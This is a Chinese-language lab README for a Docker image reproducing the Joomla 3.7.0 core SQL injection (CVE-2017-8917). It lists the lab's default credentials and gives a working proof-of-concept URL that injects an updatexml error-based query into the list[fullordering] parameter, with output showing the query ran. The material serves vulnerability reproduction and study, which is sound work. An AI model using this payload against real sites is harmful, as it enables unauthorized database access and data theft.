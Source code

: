 Joomla! 3.7.0 Core SQL Injection (CVE-2017-8917)
---

### 漏洞信息

Joomla于5月17日发布了新版本3.7.1,（(Joomla! 3.7.1 Release News)[https://www.joomla.org/announcements/release-news/5705-joomla-3-7-1-release.html]），本次更新中修复一个高危SQL注入漏洞（[[20170501] - Core - SQL Injection](https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html))，成功利用该漏洞后攻击者可以在未授权的情况下进行SQL注入。

详细参考：[Joomla! 3.7 Core SQL Injection (CVE-2017-8917)](https://www.seebug.org/vuldb/ssvid-93113)

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
Mysql | root | root
/administrator/ | admin | admin123


### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:j_joomla_2
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:j_joomla_2
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

### PoC 使用

```
http://你的 IP 地址:端口号/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x3a,concat(1,(select%20md5(1))),1)
```

看到结果成功执行了 `select md5(1)`：

```
If difficulties persist, please contact the System Administrator of this site and report the error below.

500 XPATH syntax error: 'c4ca4238a0b923820dcc509a6f75849b'
```

### 相关链接

* [SQL Injection Vulnerability in Joomla! 3.7](https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html)
* [Joomla! 3.7 Core SQL Injection (CVE-2017-8917)](https://www.seebug.org/vuldb/ssvid-93113)
* [[20170501] - Core - SQL Injection](https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html)

